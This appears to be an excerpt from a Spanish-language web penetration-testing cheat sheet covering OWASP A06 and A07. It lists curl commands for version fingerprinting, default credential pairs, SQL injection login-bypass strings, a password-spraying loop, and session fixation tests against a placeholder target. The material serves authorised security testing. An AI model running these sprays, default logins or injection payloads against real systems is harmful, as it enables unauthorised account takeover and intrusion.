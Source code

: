 ### **6. Vulnerable Components (A06:2021)**

#### **Detección de Versiones**
```bash
# CMS Detection
curl -s http://target | grep -i "wordpress\|drupal\|joomla"
curl -s http://target/wp-content/themes/
curl -s http://target/sites/default/files/

# JavaScript Libraries
curl -s http://target | grep -E "jquery|bootstrap|angular" | grep -o 'version.*[0-9]\+\.[0-9]\+'

# Framework Detection
curl -I http://target | grep -E "X-Powered-By|Server"
```

### **7. Authentication Failures (A07:2021)**

#### **Tests de Autenticación Débil**
```bash
# Contraseñas comunes
admin:admin
admin:password
admin:123456
root:root
test:test

# Bypass de autenticación
' OR '1'='1
admin'--
admin'/*

# Password spraying
for user in admin root test; do
    for pass in password 123456 admin; do
        curl -d "user=$user&pass=$pass" http://target/login
    done
done
```

#### **Tests de Sesión**
```bash
# Session fixation
# 1. Obtener session ID sin autenticación
curl -c cookies.txt http://target/login

# 2. Autenticarse con el mismo session ID
curl -b cookies.txt -d "user=admin&pass=secret" http://target/login

# Session timeout
curl -H "Cookie: SESSIONID=old_session" http://target/protected
```
